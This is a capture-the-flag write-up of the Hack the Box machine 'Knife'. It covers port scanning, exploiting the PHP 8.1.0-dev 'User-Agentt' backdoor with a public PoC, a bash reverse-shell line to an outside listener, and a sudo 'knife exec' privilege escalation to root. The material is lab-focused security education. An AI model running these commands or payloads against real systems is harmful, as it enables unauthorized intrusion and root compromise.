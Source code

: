 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
date = 2021-08-28T16:35:39Z
description = ""
draft = false
thumbnail = "/images/2021/08/knife.png"
slug = "hack-the-box-knife"
summary = "Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!\n"
tags = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
title = "Hack the Box - Knife"
url = "/hack-the-box-knife"

+++


Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!

As usual, we start with `nmap`:

```
Nmap scan report for 10.10.10.242
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we view what's being hosted on port 80 we are brough to a hospital hosting site. There isn't anything notable on the site that we can access. We'll start by enumerating with `ffuf`.

Command:
`ffuf -u http://10.10.10.242/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -fs 277`

In this case we use the `-fs` to hide responses with a size of 277 because of the amount of false positives. There is nothing additional. So we move on to using `Burpsuite`. When we load up `Burpsuite` and view our request / response, we see a hint:

![](/images/2021/08/image.png)

The `X-Powered-By` Header value. The first google results gives us [this](https://packetstormsecurity.com/files/162864/PHP-8.1.0-dev-Backdoor-Remote-Command-Execution.html). They were so kind to even give us a PoC script. We download the PoC and execute it:

Command:
`python3 exploit.py -l http://10.10.10.242`

When we run it, we get an interactive shell back.

![](/images/2021/08/image-1.png)

We use `which nc` to identify if `netcat` is on the system.

![](/images/2021/08/image-2.png)

We attempt to use `netcat` to create a shell back, but it doesn't work.

![](/images/2021/08/image-3.png)

So instead of `netcat` we'll try to catch a shell with a `bash` command.

Command:
`bash -i >& /dev/tcp/10.10.14.68/6969 0>&1`

That didn't work either. So, there is a space on this PoC for proxy interface. We'll simply uncomment it and let the requests go through `Burpsuite` so we can see what's being sent.

![](/images/2021/08/image-4.png)

Now with our requests coming through Burp, we can see what's being sent. In actuallity its just a simple header value - `User-Agentt` is the value we can modify to obtain the backdoor.

![](/images/2021/08/image-5.png)

We modify the request as it comes through to send us a shell to a `netcat` listener on port 6969

![](/images/2021/08/image-6.png)

Next we check to see what we can run as `root` with `sudo -l`

![](/images/2021/08/image-7.png)

We see that we can run an app called `knife`. Some googling finds us the [documentation](https://docs.chef.io/workstation/knife_exec/). There's a section for `exec`. This function lets us execute codes through itself. After some trial and error, we were able to craft a command to get the root flag.

Command:
`sudo /usr/bin/knife exec -E "exec 'cat /root/root.txt'"`

Now you could also call an interactive `bash` shell and work that way

Command:
`sudo /usr/bin/knife exec -E "exec '/bin/bash -i'"`

Either way gets us our `root.txt` flag! This was a very fast and simple box. The hardest part was understanding the `exec` pattern in the `Knife` command.



